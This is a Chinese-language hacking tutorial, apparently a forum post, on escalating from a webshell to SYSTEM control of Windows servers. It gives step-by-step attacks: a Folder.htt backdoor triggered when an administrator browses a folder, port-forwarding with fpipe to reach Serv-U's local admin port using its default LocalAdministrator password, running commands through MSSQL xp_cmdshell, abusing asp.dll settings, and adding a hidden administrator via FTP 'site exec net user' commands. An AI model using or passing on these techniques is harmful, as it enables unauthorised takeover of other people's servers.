 15.desktop.ini与Folder.htt
引用：首先，我们现在本地建立一个文件夹，名字不重要，进入它，在空白处点右键，选择"自定义文件夹"（xp好像是不行的）一直下点，默认即可。完成后，你就会看到在此目录下多了两个名为Folder setting的文件架与desktop.ini的文件，（如果你看不到，先取消"隐藏受保护的操作系统文件"）然后我们在Folder setting目录下找到Folder.htt文件，记事本打开，在任意地方加入以下代码：然后你将你的后门文件放在Folder setting目录下，把此目录与desktop.ini一起上传到对方任意一个目录下，就可以了，只要等管理员浏览了此目录，它就执行了我们的后门

16.su覆盖提权
本地安装个su，将你自己的ServUDaemon.ini文件用从他那下载下来的ServUDaemon.ini 覆盖掉，重起一下Serv-U，于是你上面的所有配置都与他的一模一样了

17.SU转发端口
43958这个是 Serv －U 的本地管理端口。FPIPE.exe上传他，执行命令： Fpipe &ndash;v &ndash;l 3333 &ndash;r
43958 127.0.0.1 意思是将4444端口映射到43958端口上。 然后就可以在本地安装一个Serv-u，新建一个服务器，IP填对方IP，帐号为LocalAdministrator 密码为#1@$ak#.1k;0@p 连接上后你就可以管理他的Serv-u了

18.SQL帐户密码泄露
如果对方开了MSSQL服务器，我们就可以通过用SQL连接器加管理员帐号（可以从他的连接数据库的ASP文件中看到），因为MSSQL是默认的SYSTEM权限。

引用：对方没有删除xp_cmdshell 方法：使用Sqlexec.exe，在host 一栏中填入对方IP，User与Pass中填入你所得到的用户名与密码。format选择xp_cmdshell"%s"即可。然后点击connect，连接上后就可以在CMD一栏中输入你想要的CMD命令了

19.asp.dll
引用：因为asp.dll是放在c:winntsystem32inetsrvasp.dll (不同的机子放的位置不一定相同)
我们现在加进去
```
cscript adsutil.vbs set /W3SVC/InProcessIsapiApps "C:WINNTsystem32idq.dll"
"C:WINNTsystem32inetsrvhttpext.dll" "C:WINNTsystem32inetsrvhttpodbc.dll"
"C:WINNTsystem32inetsrvssinc.dll" "C:WINNTsystem32msw3prt.dll""c:winntsystem32inetsrvasp.dll"
```
好了,现在你可以用cscript adsutil.vbs get /W3SVC/InProcessIsapiApps 来查看是不是加进去了,注意,用法中的get和set,一个是查看一个是设置.还有就是你运行上面的你要到C:InetpubAdminScripts>这个目录下. 那么如果你是一个管理员,你的机子被人用这招把asp提升为system权限,那么,这时,防的方法就是把asp.dll T出特权一族,也就是用set这个命令,覆盖掉刚才的那些东东.

20.Magic Winmail
前提是你要有个webshell 引用：<http://www.eviloctal.com/forum/read.php?tid=3587>这里去看吧

21.DBO&hellip;&hellip;
其实 提升权限的方式很多的 就看大家怎么利用了 HOHO 加油吧 将服务器控制到底！

动网上传漏洞，相信大家拿下不少肉鸡吧，但是都是WEBSHELL，不能拿到系统权限，要如何拿到系统权限呢？这正是我们这次要讨论的内容
OK，进入我的WEBSHELL
啊哈，不错，双CPU，速度应该跟的上，不拿下你我怎么甘心啊
输入密码，进入到里面看看，有什么好东西没有，翻了下，好像也没有什么特别的东西，看看能不能进到其他的盘符，点了下C盘，不错不错，可以进去，这样提升就大有希望了

一 serv－u提升
OK，看看他的PROGRAME里面有些什么程序，哦，有SERV-U，记得有次看到SERV-U有默认的用户名和密码，但是监听的端口是43958，而且是只有本地才能访问的，但是我们有端口转发工具的啊，不怕。先看看他的SERV-U的版本是多少，telnet XXX.XXX.XXX.XXX 21
显示竟然是3.0的，唉，不得不说这个管理员真的不称职。后来完毕后扫描了下，也只有FTP的洞没有补。既然是这样，我们就开始我们的提升权限了
上传FPIPE，端口转发工具，
在运行CMD命令里输入d:\wwwroot\fpipe.exe -v -l 81 -r 43958 127.0.0.1 意思是把本机的43598端口转发到81端口
然后打开我们自己机子上的SERV-U，点Serv－U服务器，点菜单栏上的的服务器，点新建服务器，然后输入IP，输入端口，记得端口是刚刚我们转发的81端口。服务名称随便你喜欢，怎么样都行。然后是用户名：LocalAdministrator 密码：#l@$ak#.lk;0@P (密码都是字母)
确定，然后点刚刚建的服务器，然后就可以看到已有的用户，自己新建一个用户，把所有权限加上。也不锁定根目录
接下来就是登陆了，登陆FTP一定要在CMD下登陆，
进入后一般命令和DOS一样，添加用户的时候
ftp>quote site exec net.exe user hk pass /add
ftp>quote site exec net.exe localgroup administrators hk/add
如果对方开了3389的话，就不用我教你怎么做了，没开的话，新建立IPC连接，在上传木马或者是开启3389的工具
